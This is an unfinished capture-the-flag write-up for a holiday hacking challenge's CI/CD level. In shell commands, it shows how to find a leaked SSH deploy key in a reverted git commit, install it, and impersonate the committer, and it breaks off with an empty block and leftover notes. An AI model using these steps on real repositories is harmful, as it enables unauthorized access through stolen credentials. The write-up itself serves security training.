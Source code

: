 ```yaml
---
sidebar_position: 3
---
```


# Jolly CI/CD

## Welcome screen

```bash
Greetings Noble Player, 

Many thanks for answering our desperate cry for help!

You may have heard that some evil Sporcs have opened up a web-store selling 
counterfeit banners and flags of the many noble houses found in the land of 
the North! They have leveraged some dastardly technology to power their 
storefront, and this technology is known as PHP! 

***gasp*** 

This strorefront utilizes a truly despicable amount of resources to keep the 
website up. And there is only a certain type of Christmas Magic capable of 
powering such a thing… an Elfen Ring!

Along with PHP there is something new we've not yet seen in our land. 
A technology called Continuous Integration and Continuous Deployment! 

Be wary! 

Many fair elves have suffered greatly but in doing so, they've managed to 
secure you a persistent connection on an internal network. 

BTW take excellent notes! 

Should you lose your connection or be discovered and evicted the 
elves can work to re-establish persistence. In fact, the sound off fans
and the sag in lighting tells me all the systems are booting up again right now.  

Please, for the sake of our Holiday help us recover the Ring and save Christmas!
```

## Helpfull hints

```
Commiting to Mistakes
From: Tinsel Upatree
Terminal: Jolly CI/CD
The thing about Git is that every step of development is accessible – even steps you didn't mean to take! git log can show code skeletons.
```

```
Switching Hats
From: Tinsel Upatree
Terminal: Jolly CI/CD
If you find a way to impersonate another identity, you might try re-cloning a repo with their credentials.
```

![Talk to Tinsel Upatree](/img/elfen-ring/git-hint.png)


## Hacking CI/CD

From talking to Tinsel Upatree we get a link to a Gitlab repo (see screenshot above). Cloning it: 

```bash
grinchum-land:~$ git clone http://gitlab.flag.net.internal/rings-of-powder
Cloning into 'rings-of-powder'...
fatal: unable to update url base from redirection:
  asked for: http://gitlab.flag.net.internal/rings-of-powder/info/refs?service=git-upload-pack
   redirect: http://gitlab.flag.net.internal/users/sign_in
grinchum-land:~$
```

No access here. Trying the full link hinted by Upatree

```bash
grinchum-land:~$ git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
Cloning into 'wordpress.flag.net.internal'...
remote: Enumerating objects: 10195, done.
remote: Total 10195 (delta 0), reused 0 (delta 0), pack-reused 10195
Receiving objects: 100% (10195/10195), 36.49 MiB | 23.07 MiB/s, done.
Resolving deltas: 100% (1799/1799), done.
Updating files: 100% (9320/9320), done.
grinchum-land:~$
```

Looking at what I've cloned

```bash
grinchum-land:~/wordpress.flag.net.internal$ git status
fatal: detected dubious ownership in repository at '/home/samways/wordpress.flag.net.internal'
To add an exception for this directory, call:

        git config --global --add safe.directory /home/samways/wordpress.flag.net.internal
grinchum-land:~/wordpress.flag.net.internal$ git config --global --add safe.directory /home/samways/wordpress.flag.net.internal
grinchum-land:~/wordpress.flag.net.internal$ git status
On branch main
Your branch is up to date with 'origin/main'.

nothing to commit, working tree clean
grinchum-land:~/wordpress.flag.net.internal$
```

Looking at the Git commit log, there are ususally gold to be found in the log:

```bash
grinchum-land:~/wordpress.flag.net.internal$ git log
.
.
.

commit e19f653bde9ea3de6af21a587e41e7a909db1ca5
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:42:54 2022 -0700

    whoops

commit abdea0ebb21b156c01f7533cea3b895c26198c98
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:42:13 2022 -0700

    added assets
```

It appears user "knee-oh" made a happy little accident in commit abdea0ebb21b156c01f7533cea3b895c26198c98 and rectified it in commit e19f653bde9ea3de6af21a587e41e7a909db1ca5. Let's see what accident that was!

```bash
grinchum-land:~/wordpress.flag.net.internal$ git checkout abdea0ebb21b156c01f7533cea3b895c26198c98
HEAD is now at abdea0e added assets
grinchum-land:~/wordpress.flag.net.internal$ ls -la
total 48
drwxr-xr-x 5 samways users  4096 Dec 11 08:35 .
drwxr-xr-x 1 samways  1002  4096 Dec 11 08:26 ..
drwxr-xr-x 8 samways users  4096 Dec 11 08:36 .git
drwxr-xr-x 2 samways users  4096 Dec 11 08:35 .ssh
-rw-r--r-- 1 samways users 19915 Dec 11 08:24 license.txt
-rw-r--r-- 1 samways users  7401 Dec 11 08:24 readme.html
drwxr-xr-x 6 samways users  4096 Dec 11 08:24 wp-content
```

Oh - look at that! A .ssh folder, what's inside?

```bash
grinchum-land:~/wordpress.flag.net.internal$ ls -la .ssh/
total 16
drwxr-xr-x 2 samways users 4096 Dec 11 08:35 .
drwxr-xr-x 5 samways users 4096 Dec 11 08:35 ..
-rw-r--r-- 1 samways users  411 Dec 11 08:35 .deploy
-rw-r--r-- 1 samways users  102 Dec 11 08:35 .deploy.pub
```

Let's make use of this SSH key

```bash
grinchum-land:~/wordpress.flag.net.internal$ cp -r .ssh $HOME/
grinchum-land:~/wordpress.flag.net.internal$ chmod 700 $HOME/.    
grinchum-land:~/wordpress.flag.net.internal$ chmod 700 $HOME/.ssh/
grinchum-land:~/wordpress.flag.net.internal$ chmod 644 $HOME/.ssh/.deploy.pub 
grinchum-land:~/wordpress.flag.net.internal$ chmod 600 $HOME/.ssh/.deploy
grinchum-land:~/wordpress.flag.net.internal$ touch $HOME/.ssh/config
```

I had to tell Git which private key to use by creating a config file and putting this as its content:

```
Host gitlab.flag.net.internal
  User git
  Hostname gitlab.flag.net.internal
  IdentityFile ~/.ssh/.deploy
```

Cloning the repository using SSH instead of HTTP:

```bash

```


















---- OLD SHIT

Then updated .git/config to reflect the switch to SSH:

```
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        # url = http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
        url = git@gitlab.flag.net.internal:/rings-of-powder/wordpress.flag.net.internal.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
```

Further impersonation, update the Git username and email settings (values grabbed from git log):

```bash
grinchum-land:~/wordpress.flag.net.internal$ git config --global user.name "knee-oh"
grinchum-land:~/wordpress.flag.net.internal$ git config --global user.email "sporx@kringlecon.com"
```
